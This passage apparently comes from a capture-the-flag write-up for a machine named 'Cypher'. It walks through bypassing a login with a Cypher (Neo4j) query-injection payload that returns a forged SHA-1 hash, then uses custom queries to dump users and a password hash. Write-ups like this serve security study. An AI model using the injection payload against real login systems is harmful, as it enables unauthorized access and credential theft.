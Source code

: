 ```
cypher

```

Now, the backend does:

```python
if sha1("cypher") == "27059a1e5d2f1832bc2cdd6a91b4b0da36b8b0f7":
    // Login success

```

Therefore, our username and password payload is:

```bash
#get the sha1sum of cypher:
echo -n admin | sha1sum

username:

' or true return 'd033e22ae348aeb5660fc2140aec35850c4da997' as hash //

password:

admin
```

We got a success and an access token:

![image.png]({{ site.baseurl }}/assets/cypher/image%204.png)

Let’s do the same thing by capturing the request on burp, changing the username and password payload to our cypher injection, then forward the data, ending intercept. We are logged in:

![image.png]({{ site.baseurl }}/assets/cypher/image%205.png)

Once logged in, we can select cypher queries from the drop down box. 

We can attempt a custom cypher query to see the relationship of users in this database:

```bash
MATCH ALL = (u:USER) - [r] - (connected) RETURN ALL
```

![image.png]({{ site.baseurl }}/assets/cypher/image%206.png)

We find user graphasm with password hash. 

If we click on Select Query, and pick HTTP Statuses, we get this query:

```bash
MATCH (n:DNS_NAME) WHERE n.scope_distance = 0 CALL custom.getUrlStatusCode(n.data) YIELD statusCode RETURN n.data, statusCode
```

The function called getURLStatusCode seems to be the same one we found earlier from the /testing dir in the java archive. Let’s take a closer look:
